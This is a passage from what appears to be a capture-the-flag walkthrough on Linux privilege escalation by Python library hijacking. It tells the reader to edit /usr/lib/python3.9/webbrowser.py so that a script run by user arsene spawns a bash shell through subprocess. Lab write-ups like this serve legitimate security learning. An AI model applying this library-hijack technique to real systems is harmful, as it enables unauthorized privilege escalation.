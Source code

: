 ![Linpeas Result](Img/20_foubded_linpeas.png)

You can read more about webbrowser vulnerability on this site [Hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

### Step 10: Taking Control

Here when we run the file `heist.py` it runs with `/usr/lib/python3.9/webbrowser.py` this file so if we modify this file than we are be able to get the user `arsene`.

- Now we're ready to exploit the `webbrowser` vulnerability. So open `webbrowser.py` for editing:

```bash
nano /usr/lib/python3.9/webbrowser.py
```

Add the following lines to the file to execute a bash shell:

```python
import subprocess

subprocess.call("/bin/bash", shell=True)
```